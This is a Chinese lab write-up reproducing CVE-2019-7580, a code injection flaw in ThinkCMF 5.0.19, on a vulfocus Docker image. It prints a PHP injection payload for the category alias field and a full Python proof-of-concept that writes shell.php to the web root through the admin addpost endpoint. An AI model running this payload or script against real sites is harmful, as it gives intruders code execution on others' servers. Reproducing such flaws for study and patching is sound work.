






# CVE-2019-7580漏洞复现


## 1.漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF), 基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向 portal/admin_category/addpost.html 页面发送‘别名’参数利用该漏洞注入任意代码。


## 2.环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```


## 3.复现过程

启动环境。



使用账号密码：admin/123456 登陆成功。



登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```



点击添加后会在根目录下生成 shell.php .



编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要 host 和 cookie 两个参数，下图可快速获取 cookie，cookie 中只需要图中三个参数。



执行脚本。


再次成功写入


